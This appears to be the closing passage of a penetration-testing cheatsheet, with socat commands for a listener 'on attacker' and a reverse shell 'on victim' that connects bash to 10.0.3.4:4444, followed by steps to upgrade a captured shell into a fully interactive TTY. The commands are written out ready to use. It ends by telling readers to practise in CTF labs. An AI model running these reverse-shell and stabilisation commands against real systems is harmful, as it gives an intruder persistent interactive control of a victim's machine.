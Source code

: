 
### Socat Interactive Shell

On Attacker:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On Victim:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

---

## TTY Upgrade Cheatsheet

1. Spawn PTY:
    ```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
2. Background shell: `Ctrl+Z`
3. Get terminal info:
    ```bash
    echo $TERM
    stty -a
    ```
4. Set raw mode:
    ```bash
    stty raw -echo
    ```
5. Foreground shell: `fg`
6. Reset terminal:
    ```bash
    reset
    ```
7. Restore settings:
    ```bash
    export SHELL=bash
    export TERM=xterm-256color
    stty rows 38 columns 116
    ```
8. (Optional) Start `tmux`
    ```bash
    tmux
    ```

---

## Conclusion

With these techniques, you can bypass restricted shells and stabilize reverse shells into fully interactive TTY sessions.  
Always practice in safe, legal environments like CTF labs or virtual machines.
